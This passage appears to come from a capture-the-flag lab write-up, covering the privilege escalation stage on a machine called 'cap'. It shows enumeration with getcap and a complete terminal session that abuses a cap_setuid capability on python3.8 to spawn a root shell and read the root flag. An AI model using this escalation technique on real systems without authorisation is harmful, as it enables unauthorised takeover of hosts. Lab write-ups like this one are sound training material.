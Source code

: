 Yay!! it works with SSH also, so for now we got an user level shell

## Privilege Escalation

Lets try to enumerate the privilege abuses in this user,

You can try ```linpeas.sh``` to automate this process

```c
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

By using ```getcap```, we can see what are the ```capabilities``` set to the user

Seems like, ```/usr/bin/python3.8``` can set ```UID``` with highest privilege

Lets use this capability to abuse our privilege,

```c
nathan@cap:~$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system('whoami')
nathan
0
>>> os.system('id')
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
0
>>> os.setuid(0)
>>> os.system('whoami')
root
0
>>> os.system('id')
uid=0(root) gid=1001(nathan) groups=1001(nathan)
0
>>> os.system('/bin/bash')
root@cap:~# ls
user.txt
root@cap:/# cd /root/
root@cap:/root# l
root.txt  snap/
root@cap:/root# cat root.txt 
<---ROOT FLAG--->
```
